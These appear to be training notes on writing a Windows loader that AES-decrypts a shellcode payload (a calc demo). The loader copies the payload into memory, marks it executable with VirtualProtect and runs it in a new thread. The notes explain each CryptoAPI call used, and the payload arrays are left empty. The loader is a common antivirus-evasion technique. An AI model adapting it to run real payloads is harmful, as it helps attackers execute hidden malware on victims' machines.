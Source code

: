 
Code snippet
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	char key[] = 
	unsigned char calc_payload[] = 
	unsigned int calc_len = sizeof(calc_payload);
	
	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decrypt payload
	AESDecrypt((char *) calc_payload, calc_len, key, sizeof(key));
	
	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

---

Encrypt payload - take the key
```bash
python aesencrypt.py calc.bin
```

---

In Windows API, you can use and older **Cryptographic API (CryptoAPI)** to perform AES encryption and decryption with functions like `CryptAcquireContextW()`, `CryptHashData()`, `CryptEncrypt()` or `CryptDecrypt()`. But Win API delivers another, newer API - the **Cryptography API: Next Generation** (CNG) with several functions for AES, ex. `BCryptOpenAlgorithmProvider()`, `BCryptGenerateSymmetricKey()`, `BCryptEncrypt()`, etc.

#### Decrypting AES payload algorithm (C-like pseudo-code)

```c
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```

---
#### Key Windows API functions

[**_CryptAcquireContextW()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) is used to acquire a handle to a **Cryptographic Service Provider** (CSP) and, if necessary, to create a new key container. In other words, this function helps to establish a cryptographic context that allows applications to access and use cryptographic services provided by the CSP. A CSP is a software module that implements cryptographic algorithms and provides services such as encryption, decryption, hashing, and digital signatures. This function can be found in the _advapi32.dll_ library.

`CryptAcquireContextW()` function has the following prototype:

```c
BOOL WINAPI CryptAcquireContextW(
  HCRYPTPROV *phProv,        // pointer to a handle of a CSP [out param]
  LPCWSTR    pszContainer,   // key container name (null-terminated string). When dwFlags is set to CRYPT_VERIFYCONTEXT, pszContainer must be set to NULL
  LPCWSTR    pszProvider,    // null-terminated string that contains the name of the CSP to be used. If NULL == default provider
  DWORD      dwProvType,    // type of provider to acquire, ex. PROV_RSA_FULL, PROV_RSA_AES, PROV_DSS_DH, etc.
  DWORD      dwFlags        // flag values, usually set to zero. CRYPT_VERIFYCONTEXT for ephemeral keys
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptCreateHash()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is used to create a handle to a hash object for a particular hash algorithm. This function can be found in the _advapi32.dll_ library.

`CryptCreateHash()` function has the following prototype:

```c
BOOL WINAPI CryptCreateHash(
  HCRYPTPROV hProv,    // handle to a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,    // identifies the hash algorithm to use, ex. CALG_SHA_256, CALG_AES_128, CALG_ECDH, etc.
  HCRYPTKEY  hKey,     // type of hash algorithm is a keyed hash (like MAC or HMAC). Zero if nonkeyed algos
  DWORD      dwFlags,  // 0 or CRYPT_SECRETDIGEST (not used)
  HCRYPTHASH *phHash   // address to which the function copies a handle to the new hash object (pointer)
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptHashData()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) is used for hashing data using various hash algorithms provided by the operating system. This function can be found in the _advapi32.dll_ library.

`CryptHashData()` function has the following prototype:

```c
BOOL CryptHashData(
  HCRYPTHASH hHash,      // handle of the hash object
  const BYTE *pbData,    // pointer to a buffer that contains the data to be added to the hash object (the key) must be casted
  DWORD      dwDataLen,  // number of bytes of data to be added (keyl lenght) must be casted
  DWORD      dwFlags     // 0 - nothing, 0x1 - CRYPT_USERDATA
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

> In the `AESDecrypt` function `keylen` is taken in as a `size_t` because it will properly represent the literal `sizeof(key)`.
> 
> We dont cast it to a `DWORD` in the function because size_t is the correct,portable type for representing a data buffer size in C code and a `DWORD` is a **Windows-specific 32-bit type** used _only_ when interfacing with the Windows API.

|Layer|Type|Why|
|---|---|---|
|Your C code|`size_t`|portable, represents generic memory size|
|Windows API boundary|`DWORD`|required by WinAPI prototype|

---

[**_CryptDeriveKey()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey) generates cryptographic [session keys](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/s-gly) derived from a base data value. This function guarantees that when the same CSP and algorithms are used, the keys generated from the same base data are identical. The base data can be a password or any other user data. This function can be found in the _advapi32.dll_ library.

> Basically you give it a hash of your secret material, tell it “make an AES key from that,” and it returns a usable key object.

`CryptDeriveKey()` function has the following prototype:

```c
BOOL CryptDeriveKey(
  HCRYPTPROV hProv,      // handle of a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,      // identifies the hash algorithm to use, ex. CALG_AES_256, CALG_AES_128, CALG_ECDH, etc. 
  HCRYPTHASH hBaseData,  // handle to a hash object that has been fed the exact base data
  DWORD      dwFlags,    // type of key generated, can be zero or one or more values, ex. CRYPT_CREATE_SALT, CRYPT_EXPORTABLE, CRYPT_UPDATE_KEY, etc.
  HCRYPTKEY  *phKey      // pointer to a variable to receive the address of the handle of the newly generated key
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).


---

[**_CryptDecrypt()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt) is used for decrypting encrypted data using the same cryptographic key. This function can be found in the _advapi32.dll_ library.

`CryptDecrypt()` function has the following prototype:

```c
BOOL CryptDecrypt(
  HCRYPTKEY hKey,        // handle to the key to use for the decryption
  HCRYPTHASH hHash,      // handle to a hash object. If no hash, must be zero
  BOOL      Final,       // specifies whether this is the last section in a series being decrypted. If TRUE - the last block.
  DWORD     dwFlags,     // possible values: CRYPT_OAEP or CRYPT_DECRYPT_RSA_NO_PADDING_CHECK
  BYTE      *pbData,     // pointer to a buffer that contains the data to be decrypted. After the decryption, the plaintext is placed back into this same buffer.
  DWORD     *pdwDataLen  // length of the pbData buffer
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

#### Cleanup

```c
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
```